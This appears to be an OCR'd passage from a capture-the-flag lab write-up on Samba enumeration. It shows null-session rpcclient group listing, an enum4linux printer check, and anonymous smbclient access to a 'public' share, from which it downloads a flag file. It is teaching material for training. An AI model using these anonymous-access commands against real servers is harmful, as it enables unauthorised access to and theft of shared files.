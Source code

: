 ```bash
```

```bash
rpcclient -U "" -N 192.187.39.6
```

```bash
rpcclient $> enumdomgroups
group:[Maintainer] rid:[0x3ee]
group:[Reserved] rid:[0x3ef]
```

> 📌 Available domain groups are `Maintainer`, `Reserved`

* Check if samba server is configured for printing

```bash
enum4linux -i 192.187.39.6
```

```bash
 ============================================= 
|    Getting printer info for 192.187.39.6    |
 ============================================= 
No printers returned.
```

> 📌 No printers returned.

```bash
smbclient //192.187.39.6/public -N
```

```bash
smb: \> ls
 .       D  0  Tue Feb 14 21:58:47 2023
 ..      D  0  Tue Nov 27 13:36:13 2018
 secret  D  0  Tue Nov 27 13:36:13 2018
 dev     D  0  Tue Nov 27 13:36:13 2018
# ls command
```

> 📌 There are 2 directories present inside `public` share: `secret` and `dev`

```bash
smb: \> cd secret
smb: \secret\> ls
  .     D   0  Tue Nov 27 13:36:13 2018
  ..    D   0  Tue Feb 14 21:58:47 2023
  flag  N  33  Tue Nov 27 13:36:13 2018
  1981084628 blocks of size 1024. 39614508 blocks available
  
smb: \secret\> get flag
getting file \secret\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \secret\> exit

root@attackdefense:~# cat flag 
```

